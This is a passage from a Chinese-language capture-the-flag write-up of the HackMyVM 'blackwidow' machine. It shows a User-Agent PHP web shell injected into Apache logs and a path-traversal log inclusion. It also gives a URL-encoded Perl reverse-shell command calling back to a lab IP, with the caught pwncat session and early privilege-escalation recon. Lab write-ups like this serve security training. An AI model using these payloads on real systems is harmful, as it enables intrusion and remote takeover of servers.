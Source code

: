### 2.4. 日志包含getshell
我们先查看是否可以访问apache的日志
![Pasted image 20241224131013](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241224131013.png)
可以访问。 我们构造恶意的UA进行注入

```bash
┌──(root㉿kali)-[~/Desktop/hmv/blackwindow]
└─# curl http://192.168.56.23/ -A "<?php system(\$_GET['cmd']);phpinfo();?>"
<html>
<img src="wallpaper.jpg" alt="wallpaper" width="100%" height="100%">
</html>

```

再访问日志可以发现已经注入木马了
![Pasted image 20241224131251](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241224131251.png)
反弹shell
```bash
curl http://192.168.56.23/company/started.php?file=../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.56.6%22%3B%24p%3D1234%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27

┌──(root㉿kali)-[~/Desktop/hmv/blackwindow]
└─# pwncat-cs -lp 1234

[00:13:04] Welcome to pwncat 🐈!                                                                  __main__.py:164
[00:14:36] received connection from 192.168.56.23:36872                                                bind.py:84
[00:14:36] 192.168.56.23:36872: registered new host w/ db                                          manager.py:957
(local) pwncat$
(remote) www-data@blackwidow:/var/www/html/company$

```

## 3. 提权viper用户
我这里上传了Linpeas进行检测 ，但是没有发现可以直接利用的地方
看了一下wp 发现ssh认证日志 `auth.log` 被备份在了 `/var/backups/` 目录
而且我们可以可以进行查查看
```bash
(remote) www-data@blackwidow:/var/backups$ ls -l /var/log/auth.log
-rw-r----- 1 root adm 17565 Dec 24 00:32 /var/log/auth.log
(remote) www-data@blackwidow:/var/backups$ ls -l auth.log
-rw-r--r-- 1 root root 31646 Dec 13  2020 auth.log

```
> 可以发现，正常情况下。`auth.log` 在 `/var/log` 目录，而且普通用户无法查看
